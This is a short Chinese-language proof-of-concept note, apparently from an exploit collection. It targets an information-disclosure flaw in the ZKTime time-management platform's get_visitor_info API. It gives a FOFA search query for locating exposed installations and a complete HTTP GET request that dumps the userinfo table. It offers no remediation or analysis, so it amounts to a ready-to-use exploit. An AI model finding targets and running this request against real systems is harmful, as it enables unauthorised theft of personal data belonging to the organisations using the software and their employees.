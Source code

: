 ZKTime时间精细化管理平台 get\_visitor\_info 存在信息泄露​



fofa

body="/media/img/login/zktime\_logo\_zh-cn.png" \&\& body="/iclock/imanager"​



poc

GET /api/get\_visitor\_info?table=userinfo HTTP/1.1

Host: 

Upgrade-Insecure-Requests: 1

Accept-Encoding: gzip, deflate

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:140.0) Gecko/20100101 Firefox/140.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,\*/\*;q=0.8

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

